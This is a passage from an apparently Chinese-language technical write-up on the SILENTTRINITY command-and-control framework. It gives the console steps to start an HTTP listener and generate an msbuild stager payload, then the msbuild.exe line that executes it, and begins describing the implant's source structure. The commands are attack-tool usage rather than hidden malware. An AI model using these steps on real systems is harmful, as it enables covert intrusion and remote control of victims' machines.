 ### 4、开启监听

```
listeners
use http
options
start
```

### 5、生成payload

```
stagers
list
use msbuild
generate http
```

### 6、启动方式之一

```
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\msbuild.exe msbuild.xml
```

## 0x03 SILENTTRINITY的实现细节
---

源码的文件结构如下：

- SILENTTRINITY，核心文件，C#开发，格式为exe
- SILENTTRINITY_DLL，内容同上，但格式为dll
- Server，控制端，包括多个Python实现的payload

SILENTTRINITY和SILENTTRINITY_DLL功能相同，只是文件格式不同，所以这里以SILENTTRINITY为例

### 1、SILENTTRINITY

实现的功能可参照下图右半部分：

![Alt text](https://user-images.githubusercontent.com/5151193/46646842-cd2b0580-cb49-11e8-9218-73226e977d58.png)

**注：**

图片引用自https://github.com/byt3bl33d3r/SILENTTRINITY

详细说明如下：

#### 1. 启动IronPython引擎，释放资源文件并导入Python环境

资源文件名：IronPython.StdLib.2.7.9.zip

压缩包内的文件为Python的默认模块

如果安装了IronPython，压缩包的文件同默认安装路径下`C:\Program Files\IronPython 2.7\Lib`中的文件内容保持一致

IronPython下载地址：
